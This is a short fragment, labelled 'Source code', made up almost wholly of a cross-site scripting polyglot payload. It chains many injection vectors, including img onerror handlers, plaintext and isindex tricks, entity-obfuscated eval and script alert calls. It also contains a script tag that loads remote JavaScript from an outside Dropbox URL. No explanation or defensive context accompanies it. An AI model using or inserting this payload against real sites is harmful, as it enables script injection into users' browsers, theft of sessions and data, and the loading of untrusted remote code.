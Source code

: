 '">><marquee><img src=x onerror=confirm(1)></marquee>"></plaintext\></|\><plaintext/onmouseover=prompt(1)>"><script>alert(document.domain)</script>@gmail.com<isindex formaction=javascript:alert(/XSS/) type=submit>'-->"></script><script>alert(1)</script>"><img/id="confirm&lpar;1&#x29;"/alt="/"src="/"onerror=eval(id&#x29;>'"><img src="http://bryanhallsawakening.files.wordpress.com/2013/09/anonymousbigbrotherclone.jpg"/ onmousover=alert(1)><script/&Tab; src='https://dl.dropbox.com/u/13018058/js.js' /&Tab;></script>
